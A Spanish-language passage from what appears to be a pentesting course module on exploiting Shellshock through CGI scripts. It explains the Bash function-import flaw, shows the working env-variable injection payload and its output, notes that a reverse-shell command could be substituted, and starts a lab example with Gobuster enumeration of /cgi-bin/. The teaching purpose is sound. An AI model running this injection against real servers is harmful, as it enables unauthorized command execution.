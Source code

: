 
# **Shellshock a través de CGI**

La vulnerabilidad de Shellshock permite que un atacante explote versiones antiguas de BASH que guarde las variables de entorno incorrectamente. Por lo general, al guardar una función como una variable, la función de shell se detendrá donde el creador la define para terminar. Las versiones vulnerables de Bash permitirán a un atacante ejecutar comandos del sistema operativo que se incluyen después de una función almacenada dentro de una variable de entorno. Veamos un ejemplo simple en el que definimos una variable de entorno e incluyamos un comando malicioso después.

Attacando aplicaciones de interfaz de puerta de enlace común (CGI) - Shellshock

```
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

Cuando se asigna la variable anterior, Bash interpretará el`y='() { :;};'`porción como definición de función para una variable`y`. La función no hace nada más que devolver un código de salida`0`, pero cuando se importa, ejecutará el comando`echo vulnerable-shellshock`Si la versión de Bash es vulnerable. Este (o cualquier otro comando, como una línea de un enlace de Shell Inverse) se ejecutará en el contexto del usuario del servidor web. La mayoría de las veces, este será un usuario como`www-data`, y tendremos acceso al sistema, pero aún así necesitamos aumentar los privilegios. De vez en cuando tendremos mucha suerte y obtendremos acceso como el`root`Usuario si el servidor web se ejecuta en un contexto elevado.

Si el sistema no es vulnerable, solo`"not vulnerable"`se imprimirá.

Attacando aplicaciones de interfaz de puerta de enlace común (CGI) - Shellshock

```
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"not vulnerable

```

Este comportamiento ya no ocurre en un sistema parcheado, ya que Bash no ejecutará código después de que se importe una definición de función. Además, Bash ya no interpretará`y=() {...}`como una definición de función. Pero más bien, las definiciones de funciones dentro de las variables de entorno ahora deben tener prefijo`BASH_FUNC_`.

---

# **Ejemplo práctico**

Veamos un ejemplo práctico para ver cómo nosotros, como pentesters, podemos encontrar y explotar este defecto.

### **Enumeración - Gobuster**

Podemos buscar scripts CGI utilizando una herramienta como`Gobuster`. Aquí encontramos uno`access.cgi`.

Attacando aplicaciones de interfaz de puerta de enlace común (CGI) - Shellshock

```
xnoxos@htb[/htb]$ gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
```